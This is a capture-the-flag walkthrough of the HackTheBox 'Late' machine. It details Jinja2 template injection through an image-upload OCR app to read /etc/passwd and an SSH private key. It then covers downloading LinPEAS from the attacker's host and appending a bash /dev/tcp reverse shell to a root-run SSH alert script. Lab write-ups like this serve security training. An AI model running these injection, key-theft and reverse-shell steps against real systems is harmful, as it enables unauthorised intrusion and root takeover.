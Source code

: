 ```yaml
---
layout: post
title: HackTheBox - Late
category: HackTheBox
tags: machines flask linux web
date: 2022-07-06 11:15 +0300
---
```


![Machine info card](/assets/hackthebox/late/Late.png){:height="414px" width="615px"}

# Configuration

If you're using your own machine like me, you have to access HTB network via `OpenVPN`:

```zsh
sudo openvpn lab_access_file.ovpn
```

It is very useful to append `/etc/hosts/` with ip address of the machine. It is useful to get subdomains and to not memorize the address every time.

```zsh
echo '10.10.11.156  late.htb' | sudo tee -a /etc/hosts
```

# Reconnaissance

## nmap scan

```zsh
nmap -sCV -oN nmap_scan late.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We see basic `ssh` and `http` here, let's explore the web application.

## Web application

![Web application](/assets/hackthebox/late/webapp.png)

In web apps, we can use `whatweb` tool to look which technologies are used in app.
```zsh
whatweb late.htb
```

```
http://late.htb [200 OK] Bootstrap[3.0.0], Country[RESERVED][ZZ], Email[#,support@late.htb], Google-API[ajax/libs/jquery/1.10.2/jquery.min.js], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.11.156], JQuery[1.10.2], Meta-Author[Sergey Pozhilov (GetTemplate.com)], Script, Title[Late - Best online image tools], nginx[1.14.0]
```

We have a basic home page and a contact page with nothing interesting. Also, on home page we have a link to `images.late.htb`, lets modify our `/etc/hosts` with that address to look at it:

> 10.10.11.156  late.htb images.late.htb

Now we navigate to images.late.htb:

![Web application subdomain](/assets/hackthebox/late/subdomain.png)

It is an image to text converter, we can see an `upload form` here, let's check how it works. It allows only `png` or `jpg` file formats. Generate some text converted into image, I used [this site](https://www.345tool.com/converter/text-to-image-converter) here. Then, upload the image and it will return result in a txt file.

![Flask app results](/assets/hackthebox/late/flask_app_results.png)

# user.txt

## Enumeration

Note that it is a `Flask` application, it means `Python` is used here. I've found that Flask uses `Jinja2`, which allows us to try python code injections. Let's try basic injection by putting `{% raw %}{{7*'7'}}{% endraw %}` into image.

![Code injection](/assets/hackthebox/late/code_injection.png)

It works! Now we have to test and prepare our payload... 

## Exploit

After 2 hours I found right font and font size, I think it's not worth for time I spent, seriously... Use Verdana font with size 24, it worked for me. At first, we try to read `/etc/passwd`.

![etc passwd](/assets/hackthebox/late/etc_passwd.png)

We can see an interesting line here:

```
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
```

Some user has a home directory and can log in. We can try to find `ssh` private key.

![We got a private key](/assets/hackthebox/late/private_key.png)

We're lucky! Now we copy key to file and log in! Don't forget to change file permissions.

```zsh
chmod 600 id_rsa
ssh -i id_rsa svc_acc@late.htb
cat user.txt
```

# root.txt

## Explore for privilige escalation

Let's upload [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and try to get possible privilege escalation vectors. On our machine we use `Python` to start a simple web server.

```zsh
python -m http.server 8000
```

On victim machine we use `wget` to download the script. Then, we change permissions to a file to make it executable and run it.

```bash
wget http://10.10.16.14:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![Possible privesc vector](/assets/hackthebox/late/priv_esc_vector.png)

LinPEAS has found an interesting file for us, let's read it and understand what it does.

```bash
cat /usr/local/sbin/ssh-alert.sh
```

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

We can see that the script runs every time when a ssh connection is established. The file is not writtable, but if we list attributes of it, we will see that we can `append` to the file.

```bash
lsattr ssh-alert.sh
```

```
-----a--------e--- ssh-alert.sh
```

We have to check who runs the script. When we just connected via ssh, we listed the home directory and saw an executable called `pspy`, this is a tool for `monitor` processes without root privileges. Execute the tool and open another terminal, then connect again via ssh, you will see the events.

![Monitor processes](/assets/hackthebox/late/monitor_processes.png)

We can see that ssh-alert.sh runs with `UID 0`, which means that file executes by root, luckly for us! 

## Privilege escalation

Now we know that the file is executed by root, so we can do a lot of things, for example, get a reverse shell. Let's append a simple bash reverse shell from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp). Note that we can't directly write in the file. Then we check if everything is good.

```bash
echo '/bin/bash -i >& /dev/tcp/10.10.16.14/6185 0>&1' >> /usr/local/sbin/ssh-alert.sh 
cat /usr/local/ssh-alert.sh
```

Open an another terminal to set up a listener:

```zsh
nc -lnvp 6185
```

Finally, connect via ssh to trigger the script.

```zsh
ssh -i id_rsa svc_acc@late.htb
```

Then, on our listener terminal we will get the connection from `root`! We got it!

![We got a root](/assets/hackthebox/late/root.png)

# Conclusion

It was a very interesting box, but searching for a font and a font size was terrible, really. It was cool to learn about Flask and pspy.

Thank you for reading, I hope it was useful for you ❤️
